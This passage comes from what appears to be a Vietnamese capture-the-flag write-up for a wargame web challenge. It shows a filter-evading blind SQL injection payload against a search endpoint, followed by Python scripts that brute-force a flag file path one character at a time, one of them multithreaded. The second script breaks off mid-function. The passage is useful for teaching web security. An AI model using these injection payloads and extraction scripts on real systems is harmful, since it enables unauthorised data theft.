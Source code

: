 - Đoạn `substring(storage_path,1,1)like'/'#` viết liền để hạn chế dùng space (Nhưng mà nó vẫn chạy được.)

- Thay `/**/` vào payload : 

```sql
-'union/**/select/**/1,1/**/FROM(attachments)where/**/substr(storage_path,1,1)like'/'#
```

Được payload 86 kí tự, hợp lí rồi.
Script Brute tên file : 

```python
import requests
base_url = "https://dlp.wargame.vn/api/search.php?q="
cookies = {"PHPSESSID": "d005006fea64b1d184298adaaf03502e"}
headers = {"Connection": "keep-alive"}
file = "/var/data/flags/flag_2986112"
# Cho _ ở cuối bởi vì chúng ta dùng LIKE nó sẽ luôn true khi có _ (Có thể dùng để check length)
# Nhưng mà do name flag không có `_` nên là thôi bỏ cũng được.
CHARSET = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789/.-{}_"
def gen_payload(index,ch):
    sql  = f"-'uni%3don%2f**%2fselect%2f**%2f1%2c1%2f**%2fFROM(attachments)where%2f**%2fsubstr(storage_path%2c{index}%2c1)like'{ch}'%23"
    return sql
for i in range(27,100):
    for ch in CHARSET:
        payload = gen_payload(i,ch)
        url = base_url + payload
        a = requests.get(url)
        if "true" in a.text:
            file += ch
            break
    print(file)
```

Do trên server hơi lag nên GPT để script đa luồng cho nhanh : 

```python
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed
import threading
import time

base_url = "https://dlp.wargame.vn/api/search.php?q="
cookies = {"PHPSESSID": "d005006fea64b1d184298adaaf03502e"}
headers = {"Connection": "keep-alive", "User-Agent": "Mozilla/5.0 (ctf-bruter)"}
CHARSET = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789/.-{}"

file_path = ""

MAX_WORKERS = 10
REQUEST_TIMEOUT = 8
RETRY = 2
SLEEP_BETWEEN_INDEX = 0.05

def gen_payload(index, ch):
    sql  = f"-'uni%3don%2f**%2fselect%2f**%2f1%2c1%2f**%2fFROM(attachments)where%2f**%2fsubstr(storage_path%2c{index}%2c1)like'{ch}'%23"
    return sql

def probe_char(session: requests.Session, index: int, ch: str) -> bool:
    url = base_url + gen_payload(index, ch)
    tries = 0
    while tries <= RETRY:
        try:
```